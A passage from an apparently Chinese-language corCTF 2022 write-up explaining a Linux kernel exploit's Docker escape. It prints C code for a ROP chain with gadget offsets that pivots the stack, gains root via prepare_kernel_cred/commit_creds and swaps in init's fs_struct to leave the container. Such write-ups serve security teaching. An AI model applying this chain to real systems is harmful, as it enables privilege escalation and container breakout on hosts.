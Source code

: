 ![7-hijack-control_flow](/images/posts/corCTF-2022/7-hijack-control_flow.png)

## 6. 漏洞利用 - Docker 逃逸

逃逸的ROP链如下所示，`[1]-[5]` 和 CVE-2021-22555 类似，但是本例中不足以提权。和google KCTF环境不一样，本例中 Docker 禁用了  [setns()](https://linux.die.net/man/2/setns)，这意味着我们返回用户空间后不能用它进入另一个namespace。查看 [setns()](https://elixir.bootlin.com/linux/v5.10.127/source/kernel/nsproxy.c#L532) 源码，实际调用了 [commit_nsset()](https://elixir.bootlin.com/linux/v5.10.127/source/kernel/nsproxy.c#L498) 将task转移到另一个 namespace；所以我们调用 [copy_fs_struct()](https://elixir.bootlin.com/linux/v5.10.127/source/fs/fs_struct.c#L112) 来克隆 [init_fs](https://elixir.bootlin.com/linux/v5.10.127/source/fs/fs_struct.c#L163) 结构 - `[6]`，再调用 `find_task_by_vpid()` 定位当前 task - `[7]`，再利用任意写gadget 安装新的 [fs_struct](https://elixir.bootlin.com/linux/v5.10.127/source/include/linux/fs_struct.h#L9) - `[8]`，最后调用 `swapgs_restore_regs_and_return_to_usermode` 返回shell。

```c
    buff = (char *)calloc(1, 1024);

    // Stack pivot    [1]
    *(uint64_t *)&buff[0x10] = target_object + 0x30;             // anon_pipe_buf_ops
    *(uint64_t *)&buff[0x38] = kernel_base + 0xffffffff81882840; // push rsi ; in eax, dx ; jmp qword ptr [rsi + 0x66]
    *(uint64_t *)&buff[0x66] = kernel_base + 0xffffffff810007a9; // pop rsp ; ret
    *(uint64_t *)&buff[0x00] = kernel_base + 0xffffffff813c6b78; // add rsp, 0x78 ; ret

    // ROP
    rop = (uint64_t *)&buff[0x80];

    // creds = prepare_kernel_cred(0)   [2]
    *rop ++= kernel_base + 0xffffffff81001618; // pop rdi ; ret
    *rop ++= 0;                                // 0
    *rop ++= kernel_base + 0xffffffff810ebc90; // prepare_kernel_cred

    // commit_creds(creds)    [3]
    *rop ++= kernel_base + 0xffffffff8101f5fc; // pop rcx ; ret
    *rop ++= 0;                                // 0
    *rop ++= kernel_base + 0xffffffff81a05e4b; // mov rdi, rax ; rep movsq qword ptr [rdi], qword ptr [rsi] ; ret
    *rop ++= kernel_base + 0xffffffff810eba40; // commit_creds

    // task = find_task_by_vpid(1)    [4]
```